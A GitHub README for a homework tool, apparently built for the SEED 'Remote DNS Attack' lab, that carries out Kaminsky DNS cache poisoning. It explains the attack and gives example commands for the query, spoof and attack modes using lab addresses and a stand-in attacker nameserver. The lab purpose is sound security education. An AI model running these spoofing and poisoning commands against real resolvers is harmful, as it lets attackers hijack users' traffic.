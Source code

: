 # Kaminsky DNS Cache Poisoning Attack Lab

This repository contains the code and executables used to launch a Kaminsky DNS cache poisoning attack. This code was
written as a homework assignment based on the ["Remote DNS Attack" SEED lab](
https://seedsecuritylabs.org/Labs_16.04/Networking/DNS_Remote/). 

The attack works by submitting a DNS query for a non-existent subdomain of the target domain (e.g. `ksdgb.example.com`
if trying to control resolution for the `example.com` domain), and then subsequently spoofing DNS responses with an
authoritative NS record. If successful, the target DNS resolver will cache the incorrect NS entry for the target
domain. This effectively allows the attacker to redirect any traffic (that relies on the poisoned resolver) meant for
the target domain, to an IP chosen by the attacker.

## Installation Instructions

The easiest way to install this binary is simply to download it. You can then run it at your leisure. Releases are
hosted on the github repo. Note that the releases are currently only built for Linux systems and have only been tested
to work on the Ubuntu 16.04 SEED lab vm.  


## Run Instructions

Command format: `./kaminsky_attack -m <mode> [options]`

Run `./kaminsky_attack --help` to see the help information.

The program has three different modes that it can run in:
- `query` -- run a DNS query for an A record
- `spoof` -- spoof a DNS response for an A record along with an NS record in the Authority section
- `attack` -- run a Kaminsky DNS cache poisoning attack

### query mode:    

##### Required args:
- hostname -- FQDN to query an A record for (e.g. `www.example.com`)
- dns-server -- IP address or hostname of DNS server to query

##### Example:
`./kaminsky_attack --mode query --hostname ns.definitelynotkirby.com --dns-server 10.37.132.7`

### spoof mode:    

##### Required args:
- target-addr -- IP address to send spoofed replies to
- spoofed-addrs -- IP addresses to spoof responses from, only the first IP will be used
- hostname -- FQDN to spoof a response for
- attacker-ns -- nameserver to advertise as authoritative for the target domain
- spoofed-response -- IP address that will be returned as an A record for the spoofed hostname

##### Example:
`./kaminsky_attack --mode spoof --target-addr 10.37.132.6 --spoofed-addrs 10.2.2.2 --hostname www.example.com --attacker-ns 192.168.3.3 --spoofed-response 10.5.5.5`

### attack mode:

##### Required args:
- target-addr -- IP address of the DNS server whose cache will be poisoned
- spoofed-addrs -- IP addresses of the nameservers for the domain you are trying to attack
- attacker-ns -- nameserver to advertise as authoritative for the target domain
- target-domain -- domain to target, this is the domain you want to provide an authoritative NS record for

##### Optional args:
- duration -- how long to run the attack for in seconds, defaults to 5 seconds

##### Example:
`./kaminsky_attack --mode attack --target-addr 10.37.132.7 --spoofed-addrs 10.1.1.1 10.2.2.2 10.3.3.3 --attacker-ns ns.definitelynotkirby.com --target-domain example.com`


## Build Instructions

You can build the executable yourself instead of using the release binaries. This can be done using Rust's package
manager Cargo. `cargo build --release` will build the binary in release mode (which compiles with optimizations). If
you want to build an executable for a different platform, you can use cargo build's `--target` flag to specify the
target. For this assignment, I used the `i686-unknown-linux-musl` target. This target results in a statically linked
32-bit linux binary that "just works"&trade; on linux systems.
 